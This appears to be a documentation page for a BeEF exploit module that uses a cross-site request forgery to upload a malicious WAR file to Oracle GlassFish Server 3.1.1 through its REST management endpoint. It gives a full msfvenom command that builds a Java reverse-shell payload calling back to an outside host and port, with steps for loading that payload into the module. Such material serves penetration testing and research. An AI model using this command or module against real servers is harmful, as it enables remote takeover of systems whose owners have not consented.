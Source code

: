 ## Summary

* **Objective**: Deploys a malicious WAR file on an Oracle GlassFish Server 3.1.1
* **Authors**: Bart Leppens
* **Browsers**: Firefox, Safari, Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/glassfish_war_upload_xsrf)

## Internal Working

sends a POST request with the WAR file encoded as base64 data to the REST API endpoint of GlassFish

`/management/domain/applications/application`

The default file uploaded is just a "hello world" war file. To upload an actual useful payload, one can use ysoserial (https://github.com/frohoff/ysoserial) or `msfvenom`

e.g.
`msfvenom -p java/shell_reverse_tcp LHOST=1.2.3.4 LPORT=8888 -f war > payload.war`

Then encode the .war file with base64 and paste it into the "Base64 of Exploit" field.

## Feedback

